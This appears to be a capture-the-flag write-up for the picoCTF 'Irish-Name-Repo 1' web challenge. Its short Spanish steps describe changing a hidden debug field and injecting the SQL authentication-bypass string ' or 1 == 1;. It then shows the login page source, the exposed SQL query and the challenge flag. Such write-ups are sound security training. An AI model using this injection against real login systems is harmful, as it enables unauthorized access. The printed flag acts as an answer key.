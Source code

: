 # Irish-Name-Repo 1
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
Try to think about how the website verifies your login.

## Solución
1. Entrar al sitio web, entrar al admin login, intentar loggearse
2. Inspeccionar el código fuente, cambiar el parámetro hidden value=0 a value =1
3. Como es una sentencia SQL, inyectar una ' or 1 == 1; para hacer la condición verdadera y obtener la bandera
```
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="[//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css](view-source:https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css)">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="[login.php](view-source:https://jupiter.challenges.picoctf.org/problem/39720/login.php)" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="1">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>

username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}
```